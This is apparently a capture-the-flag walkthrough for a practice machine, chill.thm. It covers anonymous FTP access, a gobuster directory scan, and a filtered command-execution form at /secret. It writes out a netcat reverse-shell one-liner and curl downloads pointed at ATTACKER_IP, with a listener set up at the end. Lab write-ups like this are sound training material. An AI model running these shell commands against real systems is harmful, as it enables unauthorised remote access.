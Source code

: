 There is an FTP server running on the default port 21, we can try to connect and see if the anonymous login is enabled:
```bash
ftp chill.thm
```

Now we enter the credentials `anonymous:anonymous`, it works!
Listing files we can see a note.txt, download it:
```bash
get note.txt
```

Now that is on our machine we can read the content:
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

Let's take a look at the website: `http://chill.thm`.
We land on a website called "Game Info", while we familiarize with it we can start a directory scan in the background to find hidden ones:
```bash
gobuster dir -u http://chill.thm/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 160 
```

This finds
```
/css                  (Status: 301) [Size: 304] [--> http://chill.thm/css/]
/js                   (Status: 301) [Size: 303] [--> http://chill.thm/js/]
/images               (Status: 301) [Size: 307] [--> http://chill.thm/images/]
/fonts                (Status: 301) [Size: 306] [--> http://chill.thm/fonts/]
/secret               (Status: 301) [Size: 307] [--> http://chill.thm/secret/]
```

Well the `/secret` one definitely  deserve a visit, landing there we can see a form where we can insert a command to execute.
If we test with something like `ls` we get the message "Are you a hacker?" 
Testing other commands like `whoami` prints us the user name "www-data".

This is probably related to the note we found  before, some strings, hence commands, are filtered.
Let's try some other commands...

I can run `curl` to get files from my machine:
```bash
curl http://ATTACKER_IP:8000/test.txt
```

Since we are allowed with that we can create a reverse shell on our machine and save it into a file called `shell.sh`:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ATTACKER_IP 1234 >/tmp/f
```

Now we serve it with a python server:
```bash
python3 -m http.server
```

We prepare a listener on our machine:
```bash
nc -lvnp 1234
```
